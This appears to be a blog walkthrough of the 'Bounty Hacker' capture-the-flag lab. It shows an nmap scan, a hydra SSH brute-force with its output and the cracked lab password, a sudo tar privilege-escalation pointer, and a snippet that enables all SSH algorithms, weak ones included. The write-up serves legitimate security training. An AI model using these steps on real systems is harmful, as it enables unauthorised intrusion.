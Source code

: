 ```yaml
---
layout: post
title: Walkthrough - Bounty Hacker - Linux/Tar/PrivESC/Security
published: true
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

![](/assets/cowboybebop01.jpg)

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

* * *

## Find open ports on the machine

- ``sudo nmap -Pn -sS -p- -T4 10.10.208.214 -vvv``

```shell

```

* * *

## Who wrote the task list? 

- connect to ftp and download ``locks.txt`` and ``tasks.txt``

* * *

## What service can you bruteforce with the text file found?

So I was having issues brute forcing the SSH with hydra due to a ``kex error : no match for method server host key algo: server [ssh-rsa,rsa-sha2-512,rsa-sha2-256,ecdsa-sha2-nistp256,ssh-ed25519], client [ssh-dss]`` The following code block will fix all login negotaiation errors.

```shell
{
echo -n 'Ciphers '
ssh -Q cipher | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'MACs '
ssh -Q mac | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'HostKeyAlgorithms '
ssh -Q key | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'KexAlgorithms '
ssh -Q kex | tr '\n' ',' | sed -e 's/,$//'; echo

} >> ~/.ssh/config
```

We are now able to run ``hydra -l lin -P locks.txt 10.10.208.214 ssh -t 4`` and get our ssh password.

```shell
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 10:32:21
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.208.214:22/
[22][ssh] host: 10.10.208.214   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 10:32:30
```

* * *

## user.txt

```shell
lin@bountyhacker:~/Desktop$ ls -las
total 12
4 drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
4 drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
4 -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ pwd
/home/lin/Desktop
lin@bountyhacker:~/Desktop$ cat user.txt 
```

* * *

## root.txt

```shell
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Easy PrivESC - [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

* * * 









